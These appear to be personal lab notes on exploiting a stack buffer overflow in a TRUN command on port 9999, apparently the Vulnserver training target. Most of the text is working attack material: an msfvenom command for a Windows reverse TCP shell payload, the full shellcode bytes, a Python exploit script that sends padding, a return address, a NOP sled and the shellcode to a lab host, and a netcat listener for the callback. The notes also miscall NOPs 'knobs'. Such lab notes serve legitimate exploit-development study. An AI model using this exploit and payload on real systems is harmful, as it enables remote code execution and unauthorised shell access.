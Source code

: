  **msfvenom -p windows/shell_reverse_tcp LHOST=192.168.205.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"**
-p is for payload 
exitfunc = thread for exploit to be more stable
-f for file type and export that into c
-a for architecture 
-b for bad characters

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xdb\xc7\xba\x63\xc8\x3b\xcc\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x31\x53\x17\x03\x53\x17\x83\xa0\xcc\xd9\x39\xda\x25\x9f"
"\xc2\x22\xb6\xc0\x4b\xc7\x87\xc0\x28\x8c\xb8\xf0\x3b\xc0\x34"
"\x7a\x69\xf0\xcf\x0e\xa6\xf7\x78\xa4\x90\x36\x78\x95\xe1\x59"
"\xfa\xe4\x35\xb9\xc3\x26\x48\xb8\x04\x5a\xa1\xe8\xdd\x10\x14"
"\x1c\x69\x6c\xa5\x97\x21\x60\xad\x44\xf1\x83\x9c\xdb\x89\xdd"
"\x3e\xda\x5e\x56\x77\xc4\x83\x53\xc1\x7f\x77\x2f\xd0\xa9\x49"
"\xd0\x7f\x94\x65\x23\x81\xd1\x42\xdc\xf4\x2b\xb1\x61\x0f\xe8"
"\xcb\xbd\x9a\xea\x6c\x35\x3c\xd6\x8d\x9a\xdb\x9d\x82\x57\xaf"
"\xf9\x86\x66\x7c\x72\xb2\xe3\x83\x54\x32\xb7\xa7\x70\x1e\x63"
"\xc9\x21\xfa\xc2\xf6\x31\xa5\xbb\x52\x3a\x48\xaf\xee\x61\x05"
"\x1c\xc3\x99\xd5\x0a\x54\xea\xe7\x95\xce\x64\x44\x5d\xc9\x73"
"\xab\x74\xad\xeb\x52\x77\xce\x22\x91\x23\x9e\x5c\x30\x4c\x75"
"\x9c\xbd\x99\xda\xcc\x11\x72\x9b\xbc\xd1\x22\x73\xd6\xdd\x1d"
"\x63\xd9\x37\x36\x0e\x20\xd0\xf9\x67\xe7\xa0\x92\x75\xf7\xb1"                                                                                               
"\x3e\xf3\x11\xdb\xae\x55\x8a\x74\x56\xfc\x40\xe4\x97\x2a\x2d"                                                                                               
"\x26\x13\xd9\xd2\xe9\xd4\x94\xc0\x9e\x14\xe3\xba\x09\x2a\xd9"                                                                                               
"\xd2\xd6\xb9\x86\x22\x90\xa1\x10\x75\xf5\x14\x69\x13\xeb\x0f"                                                                                               
"\xc3\x01\xf6\xd6\x2c\x81\x2d\x2b\xb2\x08\xa3\x17\x90\x1a\x7d"                                                                                               
"\x97\x9c\x4e\xd1\xce\x4a\x38\x97\xb8\x3c\x92\x41\x16\x97\x72"                                                                                               
"\x17\x54\x28\x04\x18\xb1\xde\xe8\xa9\x6c\xa7\x17\x05\xf9\x2f"                                                                                               
"\x60\x7b\x99\xd0\xbb\x3f\xb9\x32\x69\x4a\x52\xeb\xf8\xf7\x3f"                                                                                               
"\x0c\xd7\x34\x46\x8f\xdd\xc4\xbd\x8f\x94\xc1\xfa\x17\x45\xb8"                                                                                               
"\x93\xfd\x69\x6f\x93\xd7";                                                                                                                                  

>[!note] :Always note the size of the Payload cuz we would be working in Limited space.

┌──(root㉿kali)-[/home/kali]
└─#gedit fuzz_2.py
#!/usr/bin/env python2
import sys,socket 
print("running")
overflow = (
"\xda\xc5\xd9\x74\x24\xf4\xbf\xa9\xa7\x52\x5f\x5d\x2b\xc9\xb1"
"\x52\x31\x7d\x17\x03\x7d\x17\x83\x44\x5b\xb0\xaa\x6a\x4c\xb7"
"\x55\x92\x8d\xd8\xdc\x77\xbc\xd8\xbb\xfc\xef\xe8\xc8\x50\x1c"
"\x82\x9d\x40\x97\xe6\x09\x67\x10\x4c\x6c\x46\xa1\xfd\x4c\xc9"
"\x21\xfc\x80\x29\x1b\xcf\xd4\x28\x5c\x32\x14\x78\x35\x38\x8b"
"\x6c\x32\x74\x10\x07\x08\x98\x10\xf4\xd9\x9b\x31\xab\x52\xc2"
"\x91\x4a\xb6\x7e\x98\x54\xdb\xbb\x52\xef\x2f\x37\x65\x39\x7e"
"\xb8\xca\x04\x4e\x4b\x12\x41\x69\xb4\x61\xbb\x89\x49\x72\x78"
"\xf3\x95\xf7\x9a\x53\x5d\xaf\x46\x65\xb2\x36\x0d\x69\x7f\x3c"
"\x49\x6e\x7e\x91\xe2\x8a\x0b\x14\x24\x1b\x4f\x33\xe0\x47\x0b"
"\x5a\xb1\x2d\xfa\x63\xa1\x8d\xa3\xc1\xaa\x20\xb7\x7b\xf1\x2c"
"\x74\xb6\x09\xad\x12\xc1\x7a\x9f\xbd\x79\x14\x93\x36\xa4\xe3"
"\xd4\x6c\x10\x7b\x2b\x8f\x61\x52\xe8\xdb\x31\xcc\xd9\x63\xda"
"\x0c\xe5\xb1\x4d\x5c\x49\x6a\x2e\x0c\x29\xda\xc6\x46\xa6\x05"
"\xf6\x69\x6c\x2e\x9d\x90\xe7\x91\xca\x57\x77\x79\x09\x67\x69"
"\x26\x84\x81\xe3\xc6\xc0\x1a\x9c\x7f\x49\xd0\x3d\x7f\x47\x9d"
"\x7e\x0b\x64\x62\x30\xfc\x01\x70\xa5\x0c\x5c\x2a\x60\x12\x4a"
"\x42\xee\x81\x11\x92\x79\xba\x8d\xc5\x2e\x0c\xc4\x83\xc2\x37"
"\x7e\xb1\x1e\xa1\xb9\x71\xc5\x12\x47\x78\x88\x2f\x63\x6a\x54"
"\xaf\x2f\xde\x08\xe6\xf9\x88\xee\x50\x48\x62\xb9\x0f\x02\xe2"
"\x3c\x7c\x95\x74\x41\xa9\x63\x98\xf0\x04\x32\xa7\x3d\xc1\xb2"
"\xd0\x23\x71\x3c\x0b\xe0\x91\xdf\x99\x1d\x3a\x46\x48\x9c\x27"
"\x79\xa7\xe3\x51\xfa\x4d\x9c\xa5\xe2\x24\x99\xe2\xa4\xd5\xd3"
"\x7b\x41\xd9\x40\x7b\x40")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow
try:
		s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
		s.connect(('192.168.205.135',9999))
		
		s.send(('TRUN /.:/' + shellcode))
		s.close()
except:
		print "Error Connnecting To The Server"
		sys.exit()

Before we are submitting the overflow we are inserting something called as `Knobs` (i.e. knobs are padding essentially)
And they stand for no operation (i.e. knob sled)

Kali Linux (i.e. 2nd terminal)
nc -nvlp 4444

but didn't got the reverse shell cuz of this issue 
python is actually defaulted to python3 in kali linux
try changing #!/bin/python    to   #!/usr/bin/env python2


![[Pasted image 20230825154832.png]]
